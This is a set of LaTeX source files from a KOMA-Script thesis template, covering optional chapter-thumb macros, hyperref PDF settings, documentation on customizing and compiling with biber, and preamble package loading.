%doc% add lines above and below chapter head} which is disabled by
%doc% default. If you want to enable this feature, remove corresponding
%doc% comment characters from the settings.
%doc% 
%% Source: http://www.komascript.de/node/24
%disabled% %% 1st get a new command
%disabled% \newcommand*{\ORIGchapterheadstartvskip}{}%
%disabled% %% 2nd save the original definition to the new command
%disabled% \let\ORIGchapterheadstartvskip=\chapterheadstartvskip
%disabled% %% 3rd redefine the command using the saved original command
%disabled% \renewcommand*{\chapterheadstartvskip}{%
%disabled%   \ORIGchapterheadstartvskip
%disabled%   {%
%disabled%     \setlength{\parskip}{0pt}%
%disabled%     \noindent\color{DispositionColor}\rule[.3\baselineskip]{\linewidth}{1pt}\par
%disabled%   }%
%disabled% }
%disabled% %% see above
%disabled% \newcommand*{\ORIGchapterheadendvskip}{}%
%disabled% \let\ORIGchapterheadendvskip=\chapterheadendvskip
%disabled% \renewcommand*{\chapterheadendvskip}{%
%disabled%   {%
%disabled%     \setlength{\parskip}{0pt}%
%disabled%     \noindent\color{DispositionColor}\rule[.3\baselineskip]{\linewidth}{1pt}\par
%disabled%   }%
%disabled%   \ORIGchapterheadendvskip
%disabled% }

%doc% 
%doc% \subsection{Optional: Chapter thumbs}
%doc% 
%doc% This is not quite something typographic but rather a matter of taste.
%doc% \myacro{KOMA} Script offers \href{http://www.komascript.de/chapterthumbs-example}{a method to
%doc% add chapter thumbs} (in combination with the package \texttt{scrpage2}) which is disabled by
%doc% default. If you want to enable this feature, remove corresponding
%doc% comment characters from the settings.
%doc% 
%disabled% \makeatletter
%disabled% % Safty first
%disabled% \@ifundefined{chapter}{\let\chapter\undefined
%disabled%   \chapter must be defined to use chapter thumbs!}{%
%disabled%  
%disabled% % Two new commands for the width and height of the boxes with the
%disabled% % chapter number at the thumbs (use of commands instead of lengths
%disabled% % for sparing registers)
%disabled% \newcommand*{\chapterthumbwidth}{2em}
%disabled% \newcommand*{\chapterthumbheight}{1em}
%disabled%  
%disabled% % Two new commands for the colors of the box background and the
%disabled% % chapter numbers of the thumbs
%disabled% \newcommand*{\chapterthumbboxcolor}{black}
%disabled% \newcommand*{\chapterthumbtextcolor}{white}
%disabled%  
%disabled% % New command to set a chapter thumb. I'm using a group at this
%disabled% % command, because I'm changing the temporary dimension \@tempdima
%disabled% \newcommand*{\putchapterthumb}{%
%disabled%   \begingroup
%disabled%     \Large
%disabled%     % calculate the horizontal possition of the right paper border
%disabled%     % (I ignore \hoffset, because I interprete \hoffset moves the page
%disabled%     % at the paper e.g. if you are using cropmarks)
%disabled%     \setlength{\@tempdima}{\@oddheadshift}% (internal from scrpage2)
%disabled%     \setlength{\@tempdima}{-\@tempdima}%
%disabled%     \addtolength{\@tempdima}{\paperwidth}%
%disabled%     \addtolength{\@tempdima}{-\oddsidemargin}%
%disabled%     \addtolength{\@tempdima}{-1in}%
%disabled%     % putting the thumbs should not change the horizontal
%disabled%     % possition
%disabled%     \rlap{%
%disabled%       % move to the calculated horizontal possition
%disabled%       \hspace*{\@tempdima}%
%disabled%       % putting the thumbs should not change the vertical
%disabled%       % possition
%disabled%       \vbox to 0pt{%
%disabled%         % calculate the vertical possition of the thumbs (I ignore
%disabled%         % \voffset for the same reasons told above)
%disabled%         \setlength{\@tempdima}{\chapterthumbwidth}%
%disabled%         \multiply\@tempdima by\value{chapter}%
%disabled%         \addtolength{\@tempdima}{-\chapterthumbwidth}%
%disabled%         \addtolength{\@tempdima}{-\baselineskip}%
%disabled%         % move to the calculated vertical possition
%disabled%         \vspace*{\@tempdima}%
%disabled%         % put the thumbs left so the current horizontal possition
%disabled%         \llap{%
%disabled%           % and rotate them
%disabled%           \rotatebox{90}{\colorbox{\chapterthumbboxcolor}{%
%disabled%               \parbox[c][\chapterthumbheight][c]{\chapterthumbwidth}{%
%disabled%                 \centering
%disabled%                 \textcolor{\chapterthumbtextcolor}{%
%disabled%                   \strut\thechapter}\\
%disabled%               }%
%disabled%             }%
%disabled%           }%
%disabled%         }%
%disabled%         % avoid overfull \vbox messages
%disabled%         \vss
%disabled%       }%
%disabled%     }%
%disabled%   \endgroup
%disabled% }
%disabled%  
%disabled% % New command, which works like \lohead but also puts the thumbs (you
%disabled% % cannot use \ihead with this definition but you may change this, if
%disabled% % you use more internal scrpage2 commands)
%disabled% \newcommand*{\loheadwithchapterthumbs}[2][]{%
%disabled%   \lohead[\putchapterthumb#1]{\putchapterthumb#2}%
%disabled% }
%disabled%  
%disabled% % initial use
%disabled% \loheadwithchapterthumbs{}
%disabled% \pagestyle{scrheadings}
%disabled%  
%disabled% }
%disabled% \makeatother

%%%% END
%%% Local Variables:
%%% mode: latex
%%% mode: auto-fill
%%% mode: flyspell
%%% eval: (ispell-change-dictionary "en_US")
%%% TeX-master: "../main"
%%% End:
%% vim:foldmethod=expr
%% vim:fde=getline(v\:lnum)=~'^%%%%'?0\:getline(v\:lnum)=~'^%doc.*\ .\\%(sub\\)\\?section{.\\+'?'>1'\:'1':

%doc% %%%% Time-stamp: <2018-03-11 14:31:45 vk>
%%%% === Disclaimer: =======================================================
%% created by
%%
%%      Karl Voit
%%
%% using GNU/Linux, GNU Emacs & LaTeX 2e
%%

%doc%
%doc% \section{\texttt{pdf\_settings.tex} --- Settings related to PDF output}
%doc% \label{sec:pdf}
%doc%
%doc% The file \verb#template/pdf_settings.tex# basically contains the definitions for
%doc% the \href{http://tug.org/applications/hyperref/}{\texttt{hyperref} package}
%doc% including the
%doc% \href{http://www.ctan.org/tex-archive/macros/latex/required/graphics/}{\texttt{graphicx}
%doc% package}. Since these settings should be the last things of any \LaTeX{}
%doc% preamble, they got their own \TeX{} file which is included in \texttt{main.tex}.
%doc%
%doc% \paragraph{What should I do with this file?} The settings in this file are
%doc% important for \myacro{PDF} output and including graphics. Do not exclude the
%doc% related \texttt{input} command in \texttt{main.tex}. But you might want to
%doc% modify some settings after you read the
%doc% \href{http://tug.org/applications/hyperref/}{documentation of the \texttt{hyperref} package}.
%doc%


%% Fix positioning of images in PDF viewers. (disabled by
%% default; see https://github.com/novoid/LaTeX-KOMA-template/issues/4
%% for more information)
%% I do not have time to read about possible side-effect of this
%% package for now.
% \usepackage[hypcap]{caption}

%% Declarations of hyperref should be the last definitions of the preamble:
%% FIXXME: black-and-white-version for printing!

\pdfcompresslevel=9

\usepackage[%
unicode=true, % loads with unicode support
%a4paper=true, %
pdftex=true, %
backref, %
pagebackref=false, % creates backward references too
bookmarks=true, % generate bookmarks in PDF files
bookmarksopen=false, % when starting with AcrobatReader, the Bookmarkcolumn is opened
pdfpagemode=None,% None, UseOutlines, UseThumbs, FullScreen
plainpages=false, % correct, if pdflatex complains: ``destination with same identifier already exists''
%% colors: https://secure.wikimedia.org/wikibooks/en/wiki/LaTeX/Colors
urlcolor=DispositionColor, %%
linkcolor=DispositionColor, %%
pagecolor=DispositionColor, %%
citecolor=DispositionColor, %%
anchorcolor=DispositionColor, %%
colorlinks=\mycolorlinks, % turn on/off colored links (on: better for
                          % on-screen reading; off: better for printout versions)
]{hyperref}

%% all strings need to be loaded after hyperref was loaded with unicode support
%% if not the field is garbled in the output for characters like ČŽĆŠĐ
\hypersetup{
pdftitle={\mytitle}, %
pdfauthor={\myauthor}, %
%pdfsubject={\mysubject}, %
pdfcreator={Accomplished with: pdfLaTeX, biber, and hyperref-package. No animals, MS-EULA or BSA-rules were harmed.},
pdfproducer={\myauthor},
}

%\DeclareGraphicsExtensions{.pdf}

%%%% END
%%% Local Variables:
%%% TeX-master: "../main"
%%% mode: latex
%%% mode: auto-fill
%%% mode: flyspell
%%% eval: (ispell-change-dictionary "en_US")
%%% End:
%% vim:foldmethod=expr
%% vim:fde=getline(v\:lnum)=~'^%%%%'?0\:getline(v\:lnum)=~'^%doc.*\ .\\%(sub\\)\\?section{.\\+'?'>1'\:'1':

%doc%
%doc% \begin{document}
%doc% %% title page %%
%doc% \title{\mytitle}\subtitle{\mysubject}
%doc% \author{\myauthor}
%doc% \date{\today}
%doc%
%doc% \maketitle\newpage
%doc%
%doc% \tableofcontents\newpage
%doc% %%---------------------------------------%%

%doc%
%doc% \section{How to use this \LaTeX{} document template}
%doc%
%doc% This \LaTeX{} document template from
%doc% \myLaT\footnote{\url{http://LaTeX.TUGraz.at}} is based on \myacro{KOMA}
%doc% script\footnote{\url{http://komascript.de/}}. You don't need any
%doc% special \myacro{KOMA} knowledge (but it woun't hurt either). It provides an easy to use and
%doc% easy to modify template. All settings are documented and many references to
%doc% additional information sources are given.
%doc%

%doc% In general, there should not be any reason to modify a file in
%doc% the \texttt{template} folder. \emph{All important settings are
%doc% accessible in the main folder, mostly in the \texttt{main.tex}
%doc% file.} This way, it is easy to get what you need and you can update
%doc% the template independent of the content of the document.
%doc%
%doc% \newcommand{\myimportant}{%% mark important chapters
%doc%   \marginpar{\vspace{-1em}\rightpointleft}
%doc% }
%doc% \newcommand{\myinteresting}{\marginpar{\vspace{-2em}\PencilLeftDown}}

%doc%
%doc% The \emph{absolute minimum you should read} is listed below and
%doc% marked with the hand symbol:\myimportant
%doc% \begin{itemize}
%doc% \item Section~\ref{sec:modifytemplate}: basic configuration of this template.
%doc% \item Section~\ref{sec:howtocompile}: how to generate the \myacro{PDF} file
%doc% \item Section~\ref{sec:references}: using biblatex (instead of bibtex)
%doc% \end{itemize}
%doc%
%doc% In order to get a perfect resulting document and to get an
%doc% exciting experience with this template, you should definitely consider reading
%doc% following sections which are also marked with the pencil symbol:\myinteresting
%doc% \begin{itemize}
%doc% \item Section~\ref{sec:extending-template}: extend the template with
%doc%   your own usepackages, newcommands, and so forth
%doc% \item Section~\ref{sec:mycommands}: pre-defined commands to make your life easier (e.g., including graphics)
%doc% \item Section~\ref{sec:myacro}: how to do acronyms (like \myacro{ACME}) beautifully
%doc% \item Section~\ref{sub:csquotes}: how to \enquote{quote} text and use parentheses correctly
%doc% \end{itemize}
%doc%
%doc% The other sections describe all other settings for the sake of completeness. This is
%doc% interesting for learning more about \LaTeX{} and modifying this template to a higher level of detail.

%doc%
%doc% \newpage
%doc% \subsection{Six Steps to Customize Your Document}\myimportant
%doc% \label{sec:modifytemplate}
%doc%
%doc% This template is optimized to get to the first draft of your thesis
%doc% very quickly. Follow these instructions and you get most of your
%doc% customizing done in a few minutes:
%doc%
%doc% \newcommand{\myfile}[1]{\texttt{\href{file:#1}{#1}}}
%doc%
%doc% \begin{enumerate}
%doc% \item Modify settings in \texttt{main.tex} to meet your requirements:
%doc%   \begin{itemize}
%doc%   \item Basic settings
%doc%     \begin{itemize}
%doc%     \item Paper size, languages, font size, citation style,
%doc%           title page, and so forth
%doc%     \end{itemize}
%doc%   \item Document metadata
%doc%     \begin{itemize}
%doc%     \item Preferences like \verb+myauthor+, \verb+mytitle+, and so forth
%doc%     \end{itemize}
%doc%   \end{itemize}
%doc% \item Replace \myfile{figures/institution.pdf} with the logo of
%doc% your institution in either \myacro{PDF} or \myacro{PNG}
%doc% format.\footnote{Avoid \myacro{JPEG} format for
%doc% computer-generated (pixcel-oriented) graphics like logos or
%doc% screenshots in general. The \myacro{JEPG} format is for
%doc% photographs \emph{only}.}
%doc% \item Further down in \myfile{main.tex}:
%doc%   \begin{itemize}
%doc%   \item Create your desired structure for the chapters
%doc%         (\verb+\include{introduction}+, \verb+\include{evaluation}+, \ldots)
%doc%   \end{itemize}
%doc% \item Create the \TeX{} files and fill your content into these files you defined in the previous step.
%doc% \item Optionally: Modify \myfile{colophon.tex} to meet your situation.
%doc%   \begin{itemize}
%doc%   \item Please spend a couple of minutes and think about putting your work
%doc%         under an open license\footnote{\url{https://creativecommons.org/licenses/}}
%doc%         in order to follow the spirit of Open Science\footnote{\url{https://en.wikipedia.org/wiki/Open_science}}.
%doc%   \end{itemize}
%doc% \item In case you are using \myacro{GNU} make\footnote{If you
%doc%       don't know, what \myacro{GNU} make is, you are not using it (yet).}:
%doc%       Put your desired \myacro{PDF} file name in the second line of file
%doc%    \myfile{Makefile}
%doc%    \begin{itemize}
%doc%    \item replace \enquote{Projectname} with your filename
%doc%    \item do not use any file extension like \texttt{.tex} or \texttt{.pdf}
%doc%    \end{itemize}
%doc% \end{enumerate}
%doc%
%doc%

%doc%
%doc% \subsection{License}\myimportant
%doc% \label{sec:license}
%doc%
%doc% This template is licensed under a Creative Commons Attribution-ShareAlike 3.0 Unported (CC BY-SA 3.0)
%doc%         license\footnote{\url{https://creativecommons.org/licenses/by-sa/3.0/}}:
%doc%     \begin{itemize}
%doc%     \item You can share (to copy, distribute and transmit) this template.
%doc%     \item You can remix (adapt) this template.
%doc%     \item You can make commercial use of the template.
%doc%     \item In case you modify this template and share the derived
%doc%           template: You must attribute the template such that you do not
%doc%           remove (co-)authorship of Karl Voit and you must not remove
%doc%           the URL to the original repository on
%doc%           github\footnote{\url{https://github.com/novoid/LaTeX-KOMA-template}}.
%doc%     \item If you alter, transform, or build a new template upon
%doc%           this template, you may distribute the resulting
%doc%           template only under the same or similar license to this one.
%doc%     \item There are \emph{no restrictions} of any kind, however, related to the
%doc%           resulting (PDF) document!
%doc%     \item You may remove the colophon (but it's not recommended).
%doc%     \end{itemize}


%doc%
%doc%
%doc% \subsection{How to compile this document}\myimportant
%doc% \label{sec:howtocompile}
%doc%
%doc% I assume that compiling \LaTeX{} documents within your software
%doc% environment is something you have already learned. This template is
%doc% almost like any other \LaTeX{} document except it uses
%doc% state-of-the-art tools for generating things like the list of
%doc% references using biblatex/biber (see
%doc% Section~\ref{sec:references} for details). Unfortunately, some \LaTeX{} editors
%doc% do not support this much better way of working with bibliography
%doc% references yet. This section describes how to compile this template.
%doc%
%doc% \subsubsection{Compiling Using a \LaTeX{} Editor}
%doc%
%doc% Please do select \myfile{main.tex} as the \enquote{main project file} or make
%doc% sure to compile/run only \myfile{main.tex} (and not \myfile{introduction.tex}
%doc% or other \TeX{} files of this template).
%doc%
%doc% Choose \texttt{biber} for generating the references. Modern LaTeX{}
%doc% environments offer this option. Older tools might not be that up to
%doc% date yet.
%doc%

%doc% \subsubsection{Activating \texttt{biber} in the \LaTeX{} editor TeXworks}
%doc% \label{sec:biberTeXworks}
%doc%
%doc% The \href{https://www.tug.org/texworks/}{TeXworks} editor is a very
%doc% basic (but fine) \LaTeX{} editor to start with. It is included in
%doc% \href{http://miktex.org/}{MiKTeX} and
%doc% \href{http://miktex.org/portable}{MiKTeX portable} and supports
%doc% \href{https://en.wikipedia.org/wiki/Syntax_highlighting}{syntax
%doc%   highlighting} and
%doc% \href{http://itexmac.sourceforge.net/SyncTeX.html}{SyncTeX} to
%doc% synchronize \myacro{PDF} output and \LaTeX{} source code.
%doc%
%doc% Unfortunately, TeXworks shipped with MiKTeX does not support compiling
%doc% using \texttt{biber} (biblatex) out of the box. Here is a solution to
%doc% this issue. Go to TeXworks: \texttt{Edit} $\rightarrow$
%doc% \texttt{Preferences~\ldots} $\rightarrow$ \texttt{Typesetting} $\rightarrow$
%doc% \texttt{Processing tools} and add a new entry (using the plus icon):
%doc%
%doc% \begin{tabbing}
%doc%   Arguments: \= foobar  \kill
%doc%   Name:      \> \verb#pdflatex+biber# \\
%doc%   Program:   \> \emph{find the \texttt{template/pdflatex+biber.bat} file from your disk} \\
%doc%   Arguments: \> \verb+$fullname+ \\
%doc%              \> \verb+$basename+
%doc% \end{tabbing}
%doc%
%doc% Activate the \enquote{View PDF after running} option.
%doc%
%doc% Close the preferences dialog and you will now have an additional
%doc% choice in the drop down list for compiling your document. Choose the
%doc% new entry called \verb#pdflatex+biber# and start a happier life with
%doc% \texttt{biber}.
%doc%
%doc% In case your TeXworks has a German user interface, here the key
%doc% aspects in German as well:
%doc%
%doc% \begin{otherlanguage}{ngerman}
%doc%
%doc%   \texttt{Bearbeiten} $\rightarrow$ \texttt{Einstellungen~\ldots} $\rightarrow$
%doc%   \texttt{Textsatz} $\rightarrow$ \texttt{Verarbeitungsprogramme} $\rightarrow$
%doc%   + \emph{(neues Verarbeitungsprogramm)}:
%doc%
%doc% \begin{tabbing}
%doc%   Befehl/Datei: \= foobar  \kill
%doc%     Name: \> pdflatex+biber \\
%doc%     Befehl/Datei: \> \emph{die \texttt{template/pdflatex+biber.bat} im Laufwerk suchen} \\
%doc%     Argumente: \> \verb+$fullname+ \\
%doc%                \> \verb+$basename+
%doc% \end{tabbing}
%doc%
%doc% \enquote{PDF nach Beendigung anzeigen} aktivieren.
%doc%
%doc% \end{otherlanguage}
%doc%

%doc% \subsubsection{Compiling Using \myacro{GNU} make}
%doc%
%doc% With \myacro{GNU}
%doc% make\footnote{\url{https://secure.wikimedia.org/wikipedia/en/wiki/Make\_\%28software\%29}}
%doc% it is just simple as that: \texttt{make pdf}
%doc%
%doc% Several other targets are available. You can check them out by
%doc% executing: \texttt{make help}
%doc%
%doc% In case you are using TeXLive (instead of MiKTeX as I do), you might
%doc% want to modify the line \texttt{PDFLATEX\_CMD = pdflatex} within
%doc% the file \texttt{Makefile} to: \texttt{PDFLATEX\_CMD = pdflatex -synctex=1 -undump=pdflatex}
%doc%
%doc%

%doc% \subsubsection{Compiling in a Text-Shell}
%doc%
%doc% To generate a document using \texttt{Biber}, you can stick to
%doc% following example:
%doc% \begin{verbatim}
%doc% pdflatex main.tex
%doc% biber main
%doc% pdflatex main.tex
%doc% pdflatex main.tex
%doc% \end{verbatim}
%doc%
%doc% Users of TeXLive with Microsoft Windows might want to try the
%doc% following script\footnote{Thanks to Florian Brucker for provinding
%doc%   this script.} which could be stored as, e.g., \texttt{compile.bat}:
%doc% \begin{verbatim}
%doc% REM call pdflatex using parameters suitable for TeXLive:
%doc% pdflatex.exe  "main.tex"
%doc% REM generate the references metadata for biblatex (using biber):
%doc% biber.exe "main"
%doc% REM call pdflatex twice to compile the references and finalize PDF:
%doc% pdflatex.exe  "main.tex"
%doc% pdflatex.exe -synctex=-1 -interaction=nonstopmode "main.tex"
%doc% \end{verbatim}
%doc%


%doc%
%doc% \subsection{How to get rid of the template documentation}
%doc%
%doc% Simply remove the files \verb#Template_Documentation.pdf# and
%doc% \verb#Template_Documentation.tex# (if it exists) in the main folder
%doc% of this template.
%doc%
%doc% \subsection{What about modifying or extending the template?}\myinteresting
%doc% \label{sec:extending-template}
%doc%
%doc% This template provides an easy to start \LaTeX{} document template with sound
%doc% default settings. You can modify each setting any time. It is recommended that
%doc% you are familiar with the documentation of the command whose settings you want
%doc% to modify.
%doc%
%doc% It is recommended that for \emph{adding} things to the preambel (newcommands,
%doc% setting variables, defining headers, \dots) you should use the file
%doc% \texttt{main.tex}.
%doc% There are comment lines which help you find the right spot.
%doc% This way you still have the chance to update your \texttt{template}
%doc% folder from the template repository without losing your own added things.
%doc%
%doc% The following sections describe the settings and commands of this template and
%doc% give a short overview of its features.

%doc% \subsection{How to change the title page}
%doc%
%doc% This template comes with a variety of title pages. They are located in
%doc% the folder \texttt{template}. You can switch to a specific title
%doc% page by including the corresponding title page file in the file
%doc% \texttt{main.tex}.
%doc%
%doc% Please note that you may not need to modify any title page document by
%doc% yourself since all relevant information is defined in the file
%doc% \texttt{main.tex}.

%doc%
%doc% \section{\texttt{preamble.tex} --- Main preamble file}
%doc%
%doc% In the file \verb#preamble/preamble.tex# you will find the basic
%doc% definitions related to your document. This template uses the \myacro{KOMA} script
%doc% extension package of \LaTeX{}.
%doc%
%doc% There are comments added to the \verb#\documentclass{}# definitions. Please
%doc% refer to the great documentation of \myacro{KOMA}\footnote{\texttt{scrguide.pdf} for
%doc% German users} for further details.
%doc%
%doc% \paragraph{What should I do with this file?} For standard purposes you might
%doc% use the default values it provides. You must not remove its \texttt{include} command
%doc% in \texttt{main.tex} since it contains important definitions. This file contains
%doc% settings which are documented well and can be modified according to your needs.
%doc% It is recommended that you fully understand each setting you modify in order to
%doc% get a good document result. However, you can set basic values in the
%doc% \texttt{main.tex} file: font size, paper size,
%doc% paragraph separation mode, draft mode, binding correction, and whether
%doc% your document will be a one sided document or you are planning to
%doc% create a document which is printed on both, left side and right side.
%doc%

\documentclass[%
fontsize=\myfontsize,%% size of the main text
paper=\mypapersize,  %% paper format
parskip=\myparskip,  %% vertical space between paragraphs (instead of indenting first par-line)
DIV=calc,            %% calculates a good DIV value for type area; 66 characters/line is great
headinclude=true,    %% is header part of margin space or part of page content?
footinclude=false,   %% is footer part of margin space or part of page content?
open=right,          %% "right" or "left": start new chapter on right or left page
appendixprefix=true, %% adds appendix prefix; only for book-classes with \backmatter
bibliography=totoc,  %% adds the bibliography to table of contents (without number)
draft=\mydraft,      %% if true: included graphics are omitted and black boxes
                     %%          mark overfull boxes in margin space
BCOR=\myBCOR,        %% binding correction (depends on how you bind
                     %% the resulting printout.
\mylaterality        %% oneside: document is not printed on left and right sides, only right side
                     %% twoside: document is printed on left and right sides
]{scrbook}  %% article class of KOMA: "scrartcl", "scrreprt", or "scrbook".
            %% CAUTION: If documentclass will be changed, *many* other things
            %%          change as well like heading structure, ...

\raggedbottom

% FIXXME: adopting class usage:
% from scrbook -> scrartcl OR scrreport:
% - remove appendixprefix from class options
% - remove \frontmatter \mainmatter \backmatter \appendix from main.tex

% FIXXME: adopting language:
% add or modify language parameter of package »babel« and use language switches described in babel-documentation

%doc%
%doc% \subsection{\texttt{inputenc}: UTF8 as input charset}
%doc%
%doc% You are able and should use \myacro{UTF8} character settings for writing these \TeX{}-files.
%doc%
%\usepackage{ucs}             %% UTF8 as input characters; UCS incompatible to biblatex
\usepackage[utf8]{inputenc} %% UTF8 as input characters
%% Source: http://latex.tugraz.at/latex/tutorial#laden_von_paketen


%doc%
%doc% \subsection{\texttt{babel}: Language settings}
%doc%
%doc% The default setting of the language is American. Please change settings for
%doc% additional or alternative languages used in \texttt{main.tex}.
%doc%
%doc% Please note that the default language of the document is the \emph{last} language
%doc% which is added to the package options.
%doc%
%doc% To set only parts of your document in a different language as the rest, use for example\newline
%doc% \verb+\foreignlanguage{ngerman}{Beispieltext in deutscher Sprache}+\newline
%doc% For using foreign language quotes, please refer to the \verb+\foreignquote+,
%doc% \verb+\foreigntextquote+, or \verb+\foreignblockquote+ provided by
%doc% \texttt{csquotes} (see Section~\ref{sub:csquotes}).
%doc%
\usepackage[\mylanguage]{babel}  %% used languages; default language is *last* language of options

%doc%
%doc% \subsection{\texttt{scrpage2}: Headers and footers}
%doc%
%doc% Since this template is based on \myacro{KOMA} script it uses its great \texttt{scrpage2}
%doc% package for defining header and footer information. Please refer to the \myacro{KOMA}
%doc% script documentation how to use this package.
%doc%
%\usepackage{scrpage2} %%  advanced page style using KOMA


%doc%
%doc% \subsection{References}\myimportant
%doc% \label{sec:references}
%doc%
%doc% This template is using
%doc% \href{http://www.tex.ac.uk/tex-archive/info/translations/biblatex/de/}{\texttt{biblatex}}
%doc% and \href{http://en.wikipedia.org/wiki/Biber_(LaTeX)}{\texttt{Biber}}
%doc% instead of
%doc% \href{http://en.wikipedia.org/wiki/BibTeX}{\textsc{Bib}\TeX{}}. This has the following
%doc% advantages:
%doc% \begin{itemize}
%doc% \item better documentation
%doc% \item Unicode-support like German umlauts (ö, ä, ü, ß) for references
%doc% \item flexible definition of citation styles
%doc% \item multiple bibliographies e.\,g. for printed and online resources
%doc% \item cleaner reference definition e.\,g. inheriting information from
%doc%   \texttt{Proceedings} to all related \texttt{InProceedings}
%doc% \item modern implementation
%doc% \end{itemize}
%doc%
%doc% In short, \texttt{biblatex} is able to handle your \texttt{bib}-files
%doc% and offers additional features. To get the most out of
%doc% \texttt{biblatex}, you should read the very good package
%doc% documentation. Be warned: you'll probably never want to change back
%doc% to \textsc{Bib}\TeX{} again.
%doc%
%doc% Take a look at the files \texttt{references-bibtex.bib} and
%doc% \texttt{references-biblatex.bib}: they contain the three
%doc% references \texttt{tagstore}, \texttt{Voit2009}, and
%doc% \texttt{Voit2011}.
%doc% The second file is optimized for \texttt{biblatex} and
%doc% takes advantage of some features that are not possible with
%doc% \textsc{Bib}\TeX{}.
%doc%
%doc% This template is ready to use \texttt{biblatex} with \texttt{Biber} as
%doc% reference compiler. You should make sure that you have installed an up
%doc% to date binary of \texttt{Biber} from its
%doc% homepage\footnote{\url{http://biblatex-biber.sourceforge.net/}}.
%doc%
%doc%
%doc% In \texttt{main.tex} you can define several general \texttt{biblatex}
%doc% options: citation style, whether or not multiple occurrences of
%doc% authors are replaced with dashes, or if backward references (from
%doc% references to citations) should be added.
%doc%
%doc%
%doc% If you are using the LaTeX{} editor TeXworks, please make sure that
%doc% you have read Section~\ref{sec:biberTeXworks} in order to use
%doc% \texttt{biber}.
%doc%

%doc% \subsubsection{Example citation commands}
%doc%
%doc% This section demonstrates some example citations using the style \texttt{authoryear}.
%doc% You can change the citation style in \texttt{main.tex} (\texttt{mybiblatexstyle}).
%doc%
%doc% \begin{itemize}
%doc% \item cite \cite{Eijkhout2008} and cite \cite{Bringhurst1993, Eijkhout2008}.
%doc% \item citet \citet{Eijkhout2008} and citet \citet{Bringhurst1993, Eijkhout2008}.
%doc% \item autocite \autocite{Eijkhout2008} and autocite \autocite{Bringhurst1993, Eijkhout2008}.
%doc% \item autocites \autocites{Eijkhout2008} and autocites \autocites{Bringhurst1993, Eijkhout2008}.
%doc% \item citeauthor \citeauthor{Eijkhout2008} and citeauthor \citeauthor{Bringhurst1993, Eijkhout2008}.
%doc% \item citetitle \citetitle{Eijkhout2008} and citetitle \citetitle{Bringhurst1993, Eijkhout2008}.
%doc% \item citeyear \citeyear{Eijkhout2008} and citeyear \citeyear{Bringhurst1993, Eijkhout2008}.
%doc% \item textcite \textcite{Eijkhout2008} and textcite \textcite{Bringhurst1993, Eijkhout2008}.
%doc% \item smartcite \smartcite{Eijkhout2008} and smartcite \smartcite{Bringhurst1993, Eijkhout2008}.
%doc% \item footcite \footcite{Eijkhout2008} and footcite \footcite{Bringhurst1993, Eijkhout2008}.
%doc% \item footcite with page \footcite[p.42]{Eijkhout2008} and footcite with page \footcite[compare][p.\,42]{Eijkhout2008}.
%doc% \item fullcite \fullcite{Eijkhout2008} and fullcite \fullcite{Bringhurst1993, Eijkhout2008}.
%doc% \end{itemize}
%doc%
%doc% Please note that the citation style as well as the bibliography style
%doc% can be changed very easily. Refer to the settings in
%doc% \texttt{main.tex} as well as the very good documentation of \texttt{biblatex}.
%doc%

%doc% \subsubsection{Using this template with \myacro{APA} style}
%doc%
%doc% First, you have to have the \myacro{APA} biblatex style
%doc% installed. Modern \LaTeX{} distributions do come with
%doc% \texttt{biblatex} and \myacro{APA} style. If so, you will find the
%doc% files \texttt{biblatex-apa.pdf} (style documentation) and
%doc% \texttt{biblatex-apa-test.pdf} (file with citation examples) on your
%doc% hard disk.
%doc%
%doc% \begin{enumerate}
%doc% \item Change the style according to \verb#\newcommand{\mybiblatexstyle}{apa}#
%doc% \item Add \verb#\DeclareLanguageMapping{american}{american-apa}# or \\
%doc%   \verb#\DeclareLanguageMapping{german}{german-apa}# to your
%doc%   preamble\footnote{You might want to use section \enquote{MISC
%doc%       self-defined commands and settings} for this.}
%doc% \end{enumerate}
%doc%
%doc% These steps change the biblatex style to \myacro{APA} style

%doc%
%doc% \subsubsection{Using this template with \textsc{Bib}\TeX{}}
%doc%
%doc% If you do not want to use \texttt{Biber} and \texttt{biblatex}, you
%doc% have to change several things:
%doc% \begin{itemize}
%doc% \item in \verb#preamble/preamble.tex#
%doc%   \begin{itemize}
%doc%   \item remove the usepackage command of \texttt{biblatex}
%doc%   \item remove the \verb#\addbibresource{...}# command
%doc%   \end{itemize}
%doc% \item in \verb#main.tex#
%doc%   \begin{itemize}
%doc%   \item replace \verb=\printbibliography= with the usual
%doc%     \verb=\bibliographystyle{yourstyle}= and \verb=\bibliography{yourbibfile}=
%doc%   \end{itemize}
%doc% \item if you are using \myacro{GNU} \texttt{make}: modify \verb=Makefile=
%doc%   \begin{itemize}
%doc%   \item replace \verb#BIBTEX_CMD = biber# with \verb#BIBTEX_CMD = bibtex#
%doc%   \end{itemize}
%doc% \item Use the reference file \texttt{references-bibtex.bib}
%doc%   instead of \texttt{references-biblatex.bib}
%doc% \end{itemize}
%doc%
%doc%
\usepackage[backend=biber, %% using "biber" to compile references (instead of "biblatex")
style=\mybiblatexstyle, %% see biblatex documentation
%style=alphabetic, %% see biblatex documentation
dashed=\mybiblatexdashed, %% do *not* replace recurring reference authors with a dash
backref=\mybiblatexbackref, %% create backlings from references to citations
natbib=true, %% offering natbib-compatible commands
hyperref=true, %% using hyperref-package references
]{biblatex}  %% remove, if using BibTeX instead of biblatex

\addbibresource{\mybiblatexfile} %% remove, if using BibTeX instead of biblatex



%doc%
%doc% \subsection{Miscellaneous packages} \label{subsec:miscpackages}
%doc%
%doc% There are several packages included by default. You might want to activate or
%doc% deactivate them according to your requirements:
%doc%
%doc% \begin{enumerate}

%doc% \item[\texttt{\href{http://www.ctan.org/pkg/graphicx}{%%
%doc% graphicx%%
%doc% }}]
%doc% The widely used package to use graphical images within a \LaTeX{} document.
\ifthenelse{\boolean{\mydraft}}{   %% the \mydraft switches between
                                   %% showing rectangles instead of graphics
  \usepackage[pdftex,draft]{graphicx}
}
{
  \usepackage[pdftex]{graphicx}
}

%doc% \item[\texttt{\href{https://secure.wikimedia.org/wikibooks/en/wiki/LaTeX/Formatting\#Other\_symbols}{%%
%doc% pifont%%
%doc% }}]
%doc% For additional special characters available by \verb#\ding{}#
\usepackage{pifont}


%doc% \item[\texttt{\href{http://ctan.org/pkg/ifthen}{%%
%doc% ifthen%%
%doc% }}]
%doc% For using if/then/else statements for example in macros
\usepackage{ifthen}

%% pre-define ifthen-boolean variables:
\newboolean{myaddcolophon}
\newboolean{myaddlistoftodos}
\newboolean{english_affidavit}


%doc% \item[\texttt{\href{http://www.ctan.org/tex-archive/fonts/eurosym}{%%
%doc% eurosym%%
%doc% }}]
%doc% Using the character for Euro with \verb#\officialeuro{}#
%\usepackage{eurosym}

